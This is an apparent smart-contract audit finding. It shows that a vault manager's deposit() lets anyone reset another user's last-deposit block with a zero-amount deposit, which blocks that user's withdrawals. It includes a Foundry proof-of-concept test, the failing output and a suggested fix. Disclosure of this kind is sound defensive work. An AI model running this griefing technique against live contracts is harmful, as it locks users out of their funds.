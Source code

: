 # [LOW-01] - No possibility for the user to withdraw funds
## Impact
While using the withdrawal function,
 there is a check that “Withdrawal should not be in the same block as deposit”. 
```solidity
function withdraw(
    uint    id,
    address vault,
    uint    amount,
    address to
  ) 
    public
      isDNftOwner(id)
  {
    if (idToBlockOfLastDeposit[id] == block.number) revert DepositedInSameBlock();
    uint dyadMinted = dyad.mintedDyad(address(this), id);
    Vault _vault = Vault(vault);
    uint value = amount * _vault.assetPrice() 
                  * 1e18 
                  / 10**_vault.oracle().decimals() 
                  / 10**_vault.asset().decimals();
    if (getNonKeroseneValue(id) - value < dyadMinted) revert NotEnoughExoCollat();
    _vault.withdraw(id, to, amount);
    if (collatRatio(id) < MIN_COLLATERIZATION_RATIO)  revert CrTooLow(); 
  }
```

the `deposit()` function sets the `block.number`
```solidity 
function deposit(
    uint    id,
    address vault,
    uint    amount
  ) 
    external 
      isValidDNft(id)
  {
    idToBlockOfLastDeposit[id] = block.number;
    Vault _vault = Vault(vault);
    _vault.asset().safeTransferFrom(msg.sender, address(vault), amount);
    _vault.deposit(id, amount);
  }
```
 so the **attacker** can browse the `mempool` or run a loop for each block by specifying someone else's token id and passing `amount=0`, thus preventing the attacker from withdrawing funds to the user.
## Proof of Concept
```solidity
function testDeposit() public {
        deal(alice, 1 ether);
        uint256 id = contracts.vaultManager.dNft().mintNft{value: 1 ether}(
            alice
        );
        assertEq(alice, contracts.vaultManager.dNft().ownerOf(644));

        vm.prank(attacker);

        contracts.vaultManager.deposit(644, address(contracts.ethVault), 0);
        vm.prank(alice);

        contracts.vaultManager.withdraw(
            644,
            address(contracts.ethVault),
            10,
            alice
        );
    }
```
```bash
Failing tests:
Encountered 1 failing test in test/fork/v2.t.sol:V2Test
[FAIL. Reason: DepositedInSameBlock()] testDeposit() (gas: 213595)
```
## Tools Used
forge
## Recommended Mitigation Steps
Сonsider adding the `isDNftOwner(uint id)` modifier to the `deposit()` function